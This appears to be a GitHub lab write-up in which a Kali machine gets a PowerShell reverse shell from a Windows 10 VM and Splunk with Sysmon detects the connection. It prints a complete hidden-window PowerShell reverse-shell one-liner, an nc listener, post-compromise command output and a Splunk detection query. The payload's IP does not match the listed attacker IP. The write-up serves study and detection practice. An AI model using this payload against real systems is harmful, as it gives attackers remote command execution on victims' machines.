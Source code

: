 # 🎯 C2 Payload: Reverse Shell Simulation

## Objective
Simulate a basic reverse shell attack from the **Victim (Windows 10)** machine to the **Attacker (Kali)**, and monitor the connection using **Splunk + Sysmon** on the **Defender (Ubuntu)**.

---

## 🧪 Lab Details

| Role     | OS           | IP Address     |
|----------|--------------|----------------|
| Attacker | Kali Linux   | `192.168.0.11` |
| Victim   | Windows 10   | `192.168.0.12` |
| Defender | Ubuntu (Splunk) | `192.168.0.10` |

---

## 🛠️ Payload Used (PowerShell Reverse Shell)

Executed from the **Victim** machine (PowerShell):

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```
Note: Defender blocked it initially. Real-time protection was temporarily disabled in Windows Security for testing.

## 🖥️ Kali Listener Setup

On the Attacker machine (Kali):
nc -lvnp 4444

Successfully received incoming shell from Victim:
connect to [192.168.0.11] from [192.168.0.12]
<details>
<summary>🖼️ Session Connection</summary>

![Screenshot 2025-04-25 124346](https://github.com/user-attachments/assets/c15da569-4be4-4ddd-9196-e2b718d1eba4)

</details>



<details>
  <summary>📄 Session Output (Click to Expand)</summary>

**Command:** `whoami`  
**Output:**
victim-win\vboxuser

---

**Command:** `hostname`  
**Output:**
Victim-Win

---

**Command:** `ipconfig`  
**Output:**
Ethernet adapter Ethernet: IPv4 Address. . . . . . . . . . . : 10.0.2.15 Default Gateway . . . . . . . . . : 192.168.0.1

Ethernet adapter Ethernet 2: IPv4 Address. . . . . . . . . . . : 192.168.0.12 Default Gateway . . . . . . . . . : 192.168.0.1

---

**Command:** `systeminfo`  
**Output:**
Host Name:                 VICTIM-WIN
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-20000-00001-AA947
Original Install Date:     4/19/2025, 2:30:44 PM
System Boot Time:          4/25/2025, 7:25:04 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 151 Stepping 2 GenuineIntel ~3187 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 1,404 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 1,930 MB
Virtual Memory: In Use:    3,574 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\VICTIM-WIN
......

---

**Command:** `dir`  
**Output:**
Mode                 LastWriteTime         Length Name                                                                 
====                 =============         ====== ====                                                                
d-r---         4/19/2025   2:30 PM                3D Objects                                                           
d-r---         4/19/2025   2:30 PM                Contacts                                                             
d-r---         4/22/2025   4:01 PM                Desktop                                                              
d-r---         4/19/2025   2:30 PM                Documents                                                            
d-r---         4/19/2025   7:56 PM                Downloads                                                            
d-r---         4/19/2025   2:30 PM                Favorites                                                            
d-r---         4/19/2025   2:30 PM                Links                                                                
d-r---         4/19/2025   2:30 PM                Music                                                                
d-r---         4/19/2025   2:32 PM                OneDrive                                                             
d-r---         4/19/2025   2:32 PM                Pictures                                                             
d-r---         4/19/2025   2:30 PM                Saved Games                                                          
d-r---         4/19/2025   2:32 PM                Searches                                                             
d-r---         4/19/2025   2:30 PM                Videos           

---

**Command:** `cd Desktop`  
**Command:** `echo You Have been Hacked > hacked.txt`  
<details>
<summary>🖼️ Hacked file</summary>

![Screenshot 2025-04-25 143943](https://github.com/user-attachments/assets/d1c6573f-c40f-4cc7-a46d-9d2b085865c5)

</details>
**Command:** `dir`  
**Output:**
    Directory: C:\Users\vboxuser\Desktop


Mode                 LastWriteTime         Length Name                                                                 
====                ==============         ====== ====                                                                
d-----         4/22/2025   4:05 PM                sysmon-config-master                                                 
-a----         4/25/2025  12:51 PM              0 hacked.txt                                                           
-a----         4/19/2025   4:34 PM           2348 Microsoft Edge.lnk                                                   
-a----         4/19/2025   7:37 PM        1118208 sysmon_logs.evtx      
</details>

## 🔍 Detection via Splunk (EventCode 3)
Logged and verified the following:
```
index=sysmon EventCode=3 DestinationPort=4444
| table _time, Image, User, DestinationIp, DestinationPort
```
✅ Observed PowerShell creating a TCP connection to Kali on port 4444.
<details>
<summary>🖼️ TCP connection Event</summary>

![Screenshot 2025-04-25 140538](https://github.com/user-attachments/assets/28aec82d-ae51-4fc1-9b1f-3031f59ddddb)

</details>



